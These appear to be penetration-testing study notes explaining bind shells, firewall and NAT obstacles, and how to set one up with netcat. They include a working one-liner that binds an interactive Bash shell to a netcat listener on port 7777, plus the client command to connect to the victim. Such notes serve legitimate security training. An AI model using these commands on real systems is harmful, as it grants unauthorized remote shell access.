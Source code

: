 - With a bind shell, **the target system has a listener** started and awaits a **connection from a pentester's system** (attack box).
- Admins typically configure **strict incoming firewall rules and NAT** (with PAT implementation) on the edge of the network (public-facing), so **we would need to be on the internal network already.**
- Operating system firewalls (on Windows & Linux) will likely block most incoming connections that aren't associated with trusted network-based applications.

# Establishing a Basic Bind Shell with Netcat
---
- On the server-side, we will need to specify the directory, shell, listener, work with some pipelines, and input & output redirection to ensure a shell to the system gets served when the client attempts to connect.

- No. 1: Server - Binding a Bash shell to the TCP session:
	- `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <PINGABLE_IP> 7777 > /tmp/f`
- No. 2: Client - Connecting to bind shell on target
	- `nc -nv <VICTIM_IP> 7777`